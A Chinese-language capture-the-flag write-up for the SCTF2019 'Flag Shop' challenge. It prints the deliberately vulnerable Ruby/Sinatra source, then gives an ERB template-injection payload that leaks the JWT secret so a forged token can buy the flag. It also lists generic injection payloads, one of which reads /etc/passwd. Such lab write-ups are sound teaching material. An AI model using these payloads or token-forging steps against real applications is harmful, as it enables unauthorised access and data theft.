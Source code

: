 # [SCTF2019]Flag Shop

## 知识点

`jwt`

`ruby EBR`

`SSTIw`

## 解题

![](./img/[SCTF2019]Flag Shop-1.png)

`work`可以获得钱，但是太少，看了`cookie`，发现是`jwt`，解密一下

![](./img/[SCTF2019]Flag Shop-2.png)

![](./img/[SCTF2019]Flag Shop-3.png)

发现有`jkl`代表钱，但是需要破解`secret`，用了`c-jwt-crack`和`字典破解`发现都没有找到，说明应该不是直接破解，找找其他的地方

在`robots.txt`找到了个路径`/filebak`,进入路径后发现`ruby`代码

![](./img/[SCTF2019]Flag Shop-4.png)

```ruby
require 'sinatra'
require 'sinatra/cookies'
require 'sinatra/json'
require 'jwt'
require 'securerandom'
require 'erb'

set :public_folder, File.dirname(__FILE__) + '/static'

FLAGPRICE = 1000000000000000000000000000
ENV["SECRET"] = SecureRandom.hex(64)

configure do
  enable :logging
  file = File.new(File.dirname(__FILE__) + '/../log/http.log',"a+")
  file.sync = true
  use Rack::CommonLogger, file
end

get "/" do
  redirect '/shop', 302
end

get "/filebak" do
  content_type :text
  erb IO.binread __FILE__
end

get "/api/auth" do
  payload = { uid: SecureRandom.uuid , jkl: 20}
  auth = JWT.encode payload,ENV["SECRET"] , 'HS256'
  cookies[:auth] = auth
end

get "/api/info" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  json({uid: auth[0]["uid"],jkl: auth[0]["jkl"]})
end

get "/shop" do
  erb :shop
end

get "/work" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  auth = auth[0]
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end

  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end

post "/shop" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }

  if auth[0]["jkl"] < FLAGPRICE then

    json({title: "error",message: "no enough jkl"})
  else

    auth << {flag: ENV["FLAG"]}
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    json({title: "success",message: "jkl is good thing"})
  end
end


def islogin
  if cookies[:auth].nil? then
    redirect to('/shop')
  end
end
```

在这里存在`ssti`

```ruby
get "/work" do
  islogin
  auth = JWT.decode cookies[:auth],ENV["SECRET"] , true, { algorithm: 'HS256' }
  auth = auth[0]
  unless params[:SECRET].nil?
    if ENV["SECRET"].match("#{params[:SECRET].match(/[0-9a-z]+/)}")
      puts ENV["FLAG"]
    end
  end

  if params[:do] == "#{params[:name][0,7]} is working" then

    auth["jkl"] = auth["jkl"].to_i + SecureRandom.random_number(10)
    auth = JWT.encode auth,ENV["SECRET"] , 'HS256'
    cookies[:auth] = auth
    ERB::new("<script>alert('#{params[:name][0,7]} working successfully!')</script>").result

  end
end
```

`ruby EBR`漏洞格式是`<%=%>`已经占了`5`个字符，这里要求`7`个字符。

常用的`payload`是

```ruby
<%= 7 * 7 %>
<%= File.open('/etc/passwd').read %>
```

这里利用`ruby`的[预定义变量](https://docs.ruby-lang.org/en/2.4.0/globals_rdoc.html)，只用两个字符

> `$'` The string to the right of the last successful match. 最后一次成功匹配的右侧的字符串

按照代码构造`payload`

```
/work?SECRET=&name=<%=$'%>&do=<%=$'%> is working
//urlencode
work?SECRET=&name=%3C%25%3D%24'%25%3E&do=%3C%25%3D%24'%25%3E%20is%20working
```

![](./img/[SCTF2019]Flag Shop-5.png)

用获取到的这个`secret`加密

![](./img/[SCTF2019]Flag Shop-6.png)

将这个`secret`用来加密，修改金额

![](./img/[SCTF2019]Flag Shop-7.png)

然后就可以进行购买

![](./img/[SCTF2019]Flag Shop-8.png)

![](./img/[SCTF2019]Flag Shop-9.png)

最后用`jwt`解密

![](./img/[SCTF2019]Flag Shop-10.png)

[参考文章](https://syunaht.com/p/1841453998.html)